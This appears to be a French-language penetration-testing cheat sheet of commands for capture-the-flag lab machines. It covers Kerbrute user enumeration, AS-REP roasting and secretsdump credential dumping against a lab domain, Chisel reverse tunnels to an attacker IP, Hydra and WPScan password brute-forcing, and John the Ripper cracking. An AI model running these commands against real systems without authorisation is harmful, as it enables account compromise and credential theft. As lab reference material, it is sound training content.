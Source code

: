 - [Active Directory](#Active-Directory)
  - [Kerbrute](#Kerbrute)
  - [GetNPUUsers.py](#GetNPUUsers.py)
  - [Secretsdump.py](#Secretsdump.py)
- [Binwalk](#Binwalk)
- [Chisel](#Chisel)
- [Hydra](#Hydra)
  - [WEB](#WEB)
  - [SSH](#SSH)
  - [FTP](#FTP)   
- [JohnTheRipper](#JohnTheRipper)
- [Steghide](#Steghide)
- [WPSCAN](#WPSCAN)
- [7z Deziper avec password](#7z-Deziper-avec-password)


## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk

```
binwalk <image> -e
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
#### Port distant vers port local

```
./chisel.exe client 10.14.50.100:8001 R:2805:10.10.2.0:2805
```
10.14.50.100: Attacker IP
<br>
8001: Port établie lors de la création du serveur
<br>
<br>
2805:10.10.2.0:2805 -> Bind le port 2805 de la machine Attacker au port 2805 de la machine distante 

<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
```
zip2john
ssh2john
rar2john
```

<br>

## Steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
